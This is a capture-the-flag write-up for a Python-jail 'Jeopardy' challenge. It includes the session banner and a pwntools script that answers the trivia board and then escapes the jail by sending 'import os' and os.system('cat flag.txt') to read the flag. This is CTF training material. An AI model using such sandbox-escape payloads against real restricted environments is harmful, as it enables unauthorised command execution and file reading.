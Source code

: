 # Jeopardy
**Category: Misc**

This challenge was a pyjail escape, where you had to answer cybersecurity related jeopardy questions to unlock characters you can use to escape:

```
$ nc 35.231.20.75 8082
Welcome to python jail-pardy! Each correctly answered question grants you characters which you can use try to break out of this game with to get the flag.
When you answer a question correctly, the game will tell you which characters have been unlocked.
To attempt to breakout, instead of picking a question, type the word "jailbreak" instead.

    ----------------------------------------- Jeopardy! -----------------------------------------
    UMass:  Cybersecurity Now:  Cybersecurity Yesterday:  Cybersecurity Tomorrow:  Miscellaneous:
     100           100                     100                      100                 100
     200           200                     200                      200                 200
     300           300                     300                      300                 300
     400           400                     400                      400                 400
     500           500                     500                      500                 10000

Type "ready" when you are ready to play!
```

You have a choice to either solve some of the jeopardy and do a difficult jailbreak with the limited characters, or solve the whole board and do an easy jailbreak. I went for the solve the whole board approach.

This script will answer all the questions, and print the flag:

```python
#!/usr/bin/env python3
from pwn import *

DELAY = 0.01
r = remote('35.231.20.75', 8082)

answers = [
    ["UMass 500", "jolly roger"],
    ["Umass 400", "Orchard Hill"],
    ["Umass 300", "Franklin"],
    ["UMass 200", "food"],
    ["UMass 100", "sam"],

    ["Cybersecurity Now 500", "electronic sniffing dog"],
    ["Cybersecurity Now 400", "microsoft"],
    ["Cybersecurity Now 300", "radiohead"],
    ["Cybersecurity Now 200", "laser"],
    ["Cybersecurity Now 100", "39"],

    ["Cybersecurity Yesterday 500", "the orange book"],
    ["Cybersecurity Yesterday 400", "reaper"],
    ["Cybersecurity Yesterday 300", "iran"],
    ["Cybersecurity Yesterday 200", "WarGames"],
    ["Cybersecurity Yesterday 100", "captain crunch"],

    ["Cybersecurity Tomorrow 500", "deepfake"],
    ["Cybersecurity Tomorrow 400", "arm"],
    ["Cybersecurity Tomorrow 300", "human"],
    ["Cybersecurity Tomorrow 200", "2038"],
    ["Cybersecurity Tomorrow 100", "quantum"],

    ["Miscellaneous 10000", "gSH1GgcJHimHy0XaMn"],
    ["Miscellaneous 400", "4"],
    ["Miscellaneous 300", "101010"],
    ["Miscellaneous 200", "ios"],
    ["Miscellaneous 100", "Akamai"]
]

log.info(r.recvuntilS('ready to play!'))
r.sendline('ready')
log.info(r.recvrepeat(DELAY))
for answer in answers:
    r.sendline(answer[0])
    log.info(r.recvuntil('Your answer:'))
    log.info(answer[1])
    r.sendline(answer[1])
    log.info(r.recvrepeat(DELAY))

for code in ['import os', "os.system('cat flag.txt')"]:
    r.sendline('jailbreak')
    log.info(r.recvuntil('>>> '))
    log.info(code)
    r.sendline(code)

r.interactive() # UMASS{thank-you-alex}

```
